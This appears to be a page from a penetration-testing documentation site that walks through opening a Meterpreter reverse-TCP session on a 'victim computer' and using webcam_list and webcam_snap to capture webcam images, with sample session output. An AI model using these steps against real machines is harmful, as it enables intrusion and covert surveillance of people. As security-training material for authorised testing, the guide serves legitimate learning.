 ```yaml
---
title: Webcam Capture
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 7
---
```


# Webcam Capture

## Introduction

The collection phase holds significance in the penetration testing methodology, and Meterpreter provides a module enabling the capture of webcam shots from a targeted laptop or workstation.

## Step-by-Step Guide

### 1. Create the meterpreter binary

How-To: [Creating a Meterpreter Binary](../meterpreter_binary_creation/how-to.md)

### 2. Create and run a listener

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > exploit
```

### 3. Execute your meterpreter binary on the victim computer

### 4. Confirm connection

Sample (run *'ps'*): 
```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.28.99.163:9999
[*] Sending stage (175686 bytes) to 172.28.96.1
[*] Meterpreter session 1 opened (172.28.99.163:9999 -> 172.28.96.1:11322) at 2024-01-24 11:14:18 +1100

meterpreter > ps

Process List
============

 PID   PPID  Name         Arch  Session  User                Path
 ---   ----  ----         ----  -------  ----                ----
 0     0     [System Pro
             cess]
 4     0     System
 224   4     smss.exe
 296   288   csrss.exe
 308   432   svchost.exe
 344   288   wininit.exe
 356   336   csrss.exe
 396   336   winlogon.exe
 432   344   services.exe
 440   344   lsass.exe
 ...
```

### 5. Check webcam list
```bash
meterpreter > webcam_list
1: Creative WebCam NX Pro
2: Creative WebCam NX Pro (VFW)
```

### 5. Run webscam_snap
```bash
meterpreter > webcam_snap -h
Usage: webcam_snap [options]
Grab a frame from the specified webcam.

OPTIONS:

    -h      Help Banner
    -i   The index of the webcam to use (Default: 1)
    -p   The JPEG image path (Default: 'gnFjTnzi.jpeg')
    -q   The JPEG image quality (Default: '50')
    -v   Automatically view the JPEG image (Default: 'true')

meterpreter > webcam_snap -i 1 -v false
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/Offsec/YxdhwpeQ.jpeg
```

## Reference
https://www.offsec.com/metasploit-unleashed/meterpreter-basics/#webcam_snap